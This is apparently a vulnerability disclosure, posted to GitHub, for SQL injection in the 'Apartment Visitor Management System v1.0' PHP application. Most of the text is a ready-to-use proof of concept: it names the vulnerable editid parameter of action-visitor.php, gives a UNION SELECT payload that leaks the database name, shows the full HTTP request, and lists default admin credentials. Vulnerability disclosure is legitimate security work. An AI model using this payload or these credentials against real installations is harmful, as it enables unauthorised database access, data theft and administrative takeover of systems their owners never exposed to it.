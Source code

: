 # Apartment Visitor Management System v1.0 by oretnom23 has SQL injection

BUG_Author: xxxcoll

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php-apartment-visitor-management-system-source-code

The program is built using the xmapp-php8.1 version

Vulnerability File: /avms/action-visitor.php?editid=

Vulnerability location: /avms/action-visitor.php?editid=, editid

dbname =avms_db

[+] Payload: /avms/action-visitor.php?editid=-17%27%20union%20select%201,database(),3,4,5,6,7,8,9,10,11,12--+ // Leak place ---> editid

```sql
GET /avms/action-visitor.php?editid=-17%27%20union%20select%201,database(),3,4,5,6,7,8,9,10,11,12--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=fjhrjdpuej6edqv5haoadpj3lc
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/183243119-fd833f5c-e773-4e09-8a36-07ba5025f215.png)
